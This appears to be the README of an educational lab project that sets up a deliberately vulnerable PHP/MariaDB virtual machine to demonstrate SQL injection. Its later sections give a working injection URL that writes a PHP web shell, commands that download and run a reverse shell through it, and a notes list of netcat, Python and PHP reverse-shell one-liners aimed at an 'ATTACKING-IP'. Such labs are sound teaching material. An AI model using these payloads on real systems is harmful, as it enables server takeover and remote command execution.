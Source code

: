 SQL INJECTION ATTACK EXAMPLE
============================

This is a small project to show how easy it can be to exploit SQL injection and how dangerous it can be.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------

I have added an example of how to exploit an SQL Injection vulnerability by changing the passwords of all users in the user table.
<a href="sql-injection-playground.php">SQL Injection Playground</a>. You need to reload the page to see the results as the select query is executed before the update request.


Gain Shell Access to Webserver with the Help of SQL Injection
-------------------------------------------

Inject SQL that will create a PHP script that will run passed commads:
http://192.168.30.99/login.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/cmd.php%22;  

__PYTHON BACKDOOR__

Download Python reverse shell  
http://192.168.30.99/images/cmd.php?cmd=wget%20http://192.168.30.99/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Setup the waiting prompt on your host machine - Netcat must be installed:  
`nc -nlvp 4444`

Run new Python reverse shell.  
http://192.168.30.99/images/cmd.php?cmd=/tmp/reverse-shell.py

The terminal on the host machine waiting for connection should be connected now. Try typing `ls -l /var/www/web` to see the files listed.



NOTES
----------

Setup host machine for incoming connections:  
`nc -nvlp 4444`

__Run reverse shell command on foreign machine:__

Netcat reverse shell:  
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell:  
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

PHP reverse shell:  
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
